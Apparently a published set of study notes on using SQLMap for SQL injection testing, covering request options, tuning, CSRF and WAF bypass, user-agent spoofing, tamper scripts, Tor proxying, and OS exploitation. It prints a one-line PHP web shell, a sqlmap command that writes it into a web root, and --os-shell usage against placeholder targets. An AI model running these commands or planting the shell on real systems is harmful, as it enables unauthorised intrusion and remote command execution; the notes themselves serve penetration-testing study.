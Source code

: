 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounties/sql-injection/sql-map/","tags":["SQLi","SQLInjection","SQL"]}
---
```



[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006 and is still maintained today.

The technique characters `BEUSTQ` refers to the following:

-   `B`: Boolean-based blind
-   `E`: Error-based
-   `U`: Union query-based
-   `S`: Stacked queries
-   `T`: Time-based blind
-   `Q`: Inline queries

## cURL

One good way to use SQLMAP is to "Copy as cURL" from the Network Monitor panel inside the browser, paste the curl command into thet terminal and change "curl" to "sqlmap".

## GET/POST Requests

**GET** parameters are provided using the -u/--url flags.  For POST requests, use the ```
--data flag.

## Full HTTP Requests

For complex requests use the -r flag with a request captured from Burpsuite or otherwise.  Then run:
	```
```Shell
user@comp$ sqlmap -r req.txt
```

## Custom SQLMap requests

There are numerous switches to learn:

* --cookie
* -H/--header
* etc.
* --random-agent: can be important because it picks identifies as a random agent rather than SQLMap
* --mobile: will make SQLMap identify as a mobile smartphone.

It is possible to test headers for SQLi vulnerabiltiy by using the * marker.  For example: --cookie="id=1*"

## Handling SQLMap Errors

--parse-errors to parse and display DBMS errors.
-t /tmp/traffic.txt to store traffic to an output file.
-v (1-6) to set verbosity level
--proxy to send it through a proxy like burp.

## Fine tuning attacks.

--prefix and --suffix can be used to fine tune attacks.

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
--level (1-5, default 1) extends the amount of vectors and boundaries used.
--risk (1-3, default 1) extends the vector set based on the risk of denial of service.

Various switches will also allow the fine tuning of SQLMap.


Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

## Bypassing web Application Protections

### Anti-[[Cybersecurity/Bug Bounties/CSRF\|CSRF]] Token Bypass

SQLMap has option:
```bash
--csrf-token
```

If you specify the token parameter (usually found in the request) then SQLMap will try to automatically attempt to parse the responses it gets for new tokens.

```bash
user@box$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

You use the --csrf-token switch to tell SQLMap that the token exists in the data field.  In addition, SQLMap will recognize common token specifiers like: [[Cybersecurity/Bug Bounties/CSRF\|CSRF]], xsrf, and token.

### Unique Value Bypass

Sometimes the website will have a predefined parameter that must be unique. This can be overcome using the option:
```bash
---randomize
```

### Calculated Parameter Bypass

Where a web application expects a proper parameter value be cacluated based on some other parameter values.  Often, one paramaer has to contain the message digest (e.g., **h=MD%(id)**) of another one.
```bash
---eval
```
can be used to bypass this.  Example:
```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5
```

An in-depth write up of the --eval switch is [here](https://infosecwriteups.com/the-mystery-of-sqlmaps-eval-f6c7bf43e1f).

### IP Address Concealing

Can be done via proxy or tor.
```bash
--proxy="socks4://177.38.187.70:33283"
--proxy-file

--tor
--check-tor
```

--tor switch needs [[Cybersecurity/Bug Bounties/TOR\|TOR]] installed properly on the machine.

### [[Cybersecurity/Bug Bounties/Web Application Firewall (WAF)\|Web Application Firewall (WAF)]] bypass

SQLMap will automatically inject a suspicious payload as part of its initial tests to test for the existence of a WAF.  We can skip this test to make the test less noisy by using:
```bash
--skip-waf
```

### User-agent Blacklisting Bypass

One of the firt things to think about when there is a problem.  SQLMap identifies itself as SQLMap (e.g., **User-agent: sqlmap/1.4.9 (http://sqlmap.org)**) so we should consider using the switch **--random-agent** which will change the default user-agent to a randomly chosen pool of values used by browsers.

### Tamper Scripts

Tamper scripts are Python scripts written for modifying requests before thy are sent to a target to make them less detectable (i.e., to bypass protection.)

The list of tampers can be found with the switch:
```bash
--list-tampers
```

tampers are used with the tamper switch:
```bash
--tamper="between"
```


## OS Exploitation

### File Read/Write

Generally, the DB user must have the privilege to **LOAD** **DATA** and **INSERT** to be ablte to load the content of a file to a table and then read the table.

In modern databases it is a common requirement that the user have database administrator (DBA) privileges to do this.

We can check if the user has DBA privileges with the **--is-dba** switch.

### Reading Local Files
We can read files using **--file-read**

### Wrting Local Files

Generally reuires that the --secure-file-priv configuration is disabled to allow writing data into local files using the **INTO OUTFILE** SQL query.  With SQLMap we can try and use the options:
```bash
--file-write
--file-dest
```

Say we have tihs shell as "shell.php":
```php
<?php system($_GET["cmd"]); ?>
```

We could try:
```bash
sqlmap -u "http://www.target.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
Confirm the upload by doing:
```bash
user@comp$ sqlmap -u "http://www.target.com/shell.php?cmd=ls+-la"
```
(We should get the directory contents.)

### OS Command Execution

We use the option:
```bash
--os-shell
```

One of the important lessons of this module was to use dev tools and burpsuite to locate potential injectable pages.go
